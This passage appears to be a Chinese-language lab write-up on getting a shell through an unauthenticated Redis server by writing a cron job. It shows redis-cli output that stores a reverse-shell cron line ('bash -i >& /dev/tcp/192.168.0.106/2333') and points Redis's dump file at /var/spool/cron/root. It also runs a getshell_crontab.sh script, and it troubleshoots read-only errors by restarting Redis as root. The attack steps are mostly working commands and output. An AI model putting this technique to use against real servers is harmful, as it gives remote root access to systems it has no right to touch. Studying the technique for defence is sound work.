 ```shell
127.0.0.1:6379> get 1
"\n\n* * * * * bash -i >& /dev/tcp/192.168.0.106/2333 0>&1\n\n\n"
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/spool/cron"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "root"
```
写入文件`/var/spool/cron/root`内容如下，

```
REDIS0007ú      redis-ver^F3.2.12ú
redis-bitsÀ@ú^EctimeÂ±C^C_ú^Hused-memÂøf^L^@þ^@û^A^@^@À^A:

* * * * * bash -i >& /dev/tcp/192.168.0.106/2333 0>&1


ÿ<91>Å  <87>7^X´g
```
在Linux Mint19.3也就是Ubuntu 18.04 LTS上面测试多个目录均无法成功save，
```shell
root@mint-VirtualBox:/data/hack/B/middleware/redis# bash getshell_crontab.sh 127.0.0.1 6379
OK
OK
OK
(error) ERR
OK
```
查看redis运行权限发现是redis用户，
```shell
mint@mint-VirtualBox:~$ ps -ef | grep redis
redis     1750     1  0 23:22 ?        00:00:00 /usr/bin/redis-server 127.0.0.1:6379
mint      1755  1682  0 23:22 pts/0    00:00:00 grep --color=auto red
```
同时从redis配置文件中找到redis log位置，然后查看日志，发现主要原因是只读权限，
```
2958:M 17 Jul 16:55:31.014 * 1 changes in 900 seconds. Saving...
2958:M 17 Jul 16:55:31.014 * Background saving started by pid 4151
4151:C 17 Jul 16:55:31.015 # Failed opening the RDB file dump.rdb (in server root dir /var/spool/cron) for saving: Read-only file system
2958:M 17 Jul 16:55:31.115 # Background saving error
2958:M 17 Jul 16:55:37.103 * 1 changes in 900 seconds. Saving...
2958:M 17 Jul 16:55:37.104 * Background saving started by pid 4152
4152:C 17 Jul 16:55:37.105 # Failed opening the RDB file dump.rdb (in server root dir /var/spool/cron) for saving: Read-only file system
2958:M 17 Jul 16:55:37.204 # Background saving error
```
停止redis服务，然后sudo运行，查看为root运行权限，
```shell
mint@mint-VirtualBox:~$ service redis stop
mint@mint-VirtualBox:~$ ps -ef | grep redis
mint      1922  1682  0 23:30 pts/0    00:00:00 grep --color=auto redis
mint@mint-VirtualBox:~$ sudo /usr/bin/redis-server 
1978:C 17 Jul 23:35:34.339 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
1978:C 17 Jul 23:35:34.339 # Redis version=4.0.9, bits=64, commit=00000000, modified=0, pid=1978, just started
1978:C 17 Jul 23:35:34.339 # Warning: no config file specified, using the default config. In order to specify a config file use /usr/bin/redis-server /path/to/redis.conf
1978:M 17 Jul 23:35:34.340 * Increased maximum number of open files to 10032 (it was originally set to 1024).
mint@mint-VirtualBox:~$ ps -ef | grep redis
root      1977  1682  0 23:35 pts/0    00:00:00 sudo /usr/bin/redis-server
root      1978  1977  0 23:35 pts/0    00:00:00 /usr/bin/redis-server *:6379
mint      1996  1985  0 23:35 pts/1    00:00:00 grep --color=auto redis
```